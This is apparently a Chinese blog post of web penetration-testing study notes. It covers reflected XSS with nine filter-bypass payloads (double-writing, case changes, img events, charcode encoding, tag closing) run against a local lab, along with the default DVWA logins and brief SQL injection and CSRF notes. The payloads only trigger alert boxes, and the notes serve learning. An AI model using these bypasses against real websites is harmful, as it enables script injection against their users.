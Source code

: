 ```yaml
---
title: 反射性XSS
date: 2020-03-28 21:11:55
tags:
	安全
    web渗透
typora-root-url: ./
---
```


# 反射性XSS

**跨站脚本攻击(Cross Site Scripting)**。XSS分为**反射型XSS，存储型XSS和DOM型XSS**。反射型XXS是一种**非持久性**的攻击，它指的是恶意攻击者往Web页面里插入恶意代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的目的。这里插入的恶意代码并没有保存在目标网站，需要引诱用户点击一个链接到目标网站的恶意链接来实施攻击。

![10976729-63e28ea411ca8edc](/blog.github.io/images/10976729-63e28ea411ca8edc.jpg)

**XSS攻击分类:**

XSS漏洞一般有两种类型攻击。

a)一类是来自内部的攻击，主要指的是利用WEB程序自身的漏洞，提交特殊的字符串，从而使得跨站页面直接存在于被攻击站点上，这个字符串被称为跨站语句。这一类攻击所利用的漏洞非常类似于SQL Injection漏洞，都是WEB程序没有对用户输入作充分的检查和过滤。

b)另一类则是来来自外部的攻击，主要指的自己构造XSS跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低。

**执行例子：**

1、未作任何校验的网站，输入恶意代码，弹出弹框：

`<script>alert('chenie')</script>`

![image-20200328165842263](/blog.github.io/images/image-20200328165842263.png)

2、加入了一些过滤，`preg_replace()`函数如果检测到`<script>`和`</script>`就会把其替换为空格(区分大小写，只替换小写的)。所以这里可以双写绕过也可以大小写绕过。即payload:

`<scr<script>ipt>alert('chenie')</s</script>cript>`

或

`<scRipt>alert('chenie')</scRipt>`都可以绕过过滤进行XSS。

3、用双写绕过

`<scr<script>ipt>alert('chenie')`

4、使用img标签来绕过,img src调用图片失败然后执行后面的动作。payload为:

`<img src=""onclick="alert('chenie')">`

5、用编码来绕过了, payload为

`<script>eval(String.fromCharCode(97,108,101,114,116,40,39,99,104,101,110,105,101,39))</script>`

6、通过构造js脚本使标签闭合然后加入新标签,payload为

`</script><script>alert('chenie')</script>`

7、使用单引号绕过，尝试构造语句如下：

`';alert('chenie');'`

8、当测试提交一个地址的时候源码会显示出来一个链接，链接就是输入的链接，关键代码如上，payload为

`http://192.168.1.3:8080/xss3/xss/example8.php/[/url]"><script>alert('chenie')</script>"< "`

9、XSS直接在页面输出锚点id，构建一个带xss的锚点即可，payload为

`http://192.168.1.3:8080/xss3/xss/example9.php#alert(‘chenie’)</script)>`。

刷新网页后，即可弹窗



# 火狐配置

18个扩展让你的Firefox成为渗透测试工具                                

https://www.freebuf.com/sectool/11544.html?replytocom=52007

https://blog.csdn.net/qq_37865996/article/details/85564334

# sql注入

![image-20200401211603623](/blog.github.io/images/image-20200401211603623.png)

https://www.cnblogs.com/hzk001/p/12069553.html

# dvwa

DVWA默认的用户有5个，用户名密码如下（一个足以）：

admin/password

gordonb/abc123

1337/charley

pablo/letmein

smithy/password

**获取用户名密码：**

sql盲注：https://blog.csdn.net/qq_37865996/article/details/85564334

**dvwa用户名密码重置：**Database Setup重置数据库



# CSRF跨站请求伪造

![1539764806_5bc6f2465902f](/blog.github.io/images/1539764806_5bc6f2465902f.jpg)

解决及使用方法：

1、关闭标签，cookie要过期

2、dvwa中的使用，打开csrf页面，修改密码，复制网址，修改password，并在另一个tab页中执行，密码修改为后一个密码；退出登录后，再执行网址，修改不成功

https://www.mochoublog.com/study/246.html